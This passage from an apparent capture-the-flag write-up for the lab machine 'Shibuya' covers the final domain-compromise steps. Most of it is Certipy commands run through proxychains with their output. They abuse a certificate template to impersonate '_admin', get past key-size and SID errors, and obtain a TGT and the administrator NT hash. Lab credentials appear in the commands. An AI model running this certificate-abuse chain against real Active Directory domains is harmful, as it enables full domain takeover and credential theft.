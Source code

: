 ```
[-] Failed to request certificate
```
Okay, we can see the key size is not enough, the default is **2048**, we can specify the flag **-key-size** and put the value **4096** and try again
```
proxychains certipy req -u nigel.mills@shibuya.vl -dc-ip 10.10.114.33 -ns 10.10.114.33 -p Sail2Boat3 -ca shibuya-AWSJPDC0522-CA -template ShibuyaWeb -upn '_admin@shibuya.vl' -key-size 4096
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.114.33:445  ...  OK
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with UPN '_admin@shibuya.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to '_admin.pfx'
```
Nice, now just one more step then we PWNED the domain.
```
certipy auth -pfx _admin.pfx -dc-ip 10.10.114.33
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: _admin@shibuya.vl
[*] Trying to get TGT...
[-] Object SID mismatch between certificate and user '_admin'
```
Oops! Seems like this is not fine at all. But, just lucky that I found this [post](https://x.com/unsigned_sh0rt/status/1894569834400420241), now we can just do it again, specify the SID using **-sid** from certipy then we are good.
```
proxychains certipy req -u nigel.mills@shibuya.vl -dc-ip 10.10.114.33 -ns 10.10.114.33 -p Sail2Boat3 -ca shibuya-AWSJPDC0522-CA -template ShibuyaWeb -upn '_admin@shibuya.vl' -key-size 4096 -sid 'S-1-5-21-87560095-894484815-3652015022-500'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.114.33:445  ...  OK
[*] Successfully requested certificate
[*] Request ID is 8
[*] Got certificate with UPN '_admin@shibuya.vl'
[*] Certificate object SID is 'S-1-5-21-87560095-894484815-3652015022-500'
[*] Saved certificate and private key to '_admin.pfx'

certipy auth -pfx _admin.pfx -dc-ip 10.10.114.33
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: _admin@shibuya.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to '_admin.ccache'
[*] Trying to retrieve NT hash for '_admin'
[*] Got hash for '_admin@shibuya.vl': aad3b435b51404eeaad3b435b51404ee:<REDACTED>
```
# Conclusion
<<<<<<< HEAD
A really nice machine, especially at the starting point, as one of my favorite red teamer said, the box is good/fun only when there is something or some small features that we can learn. 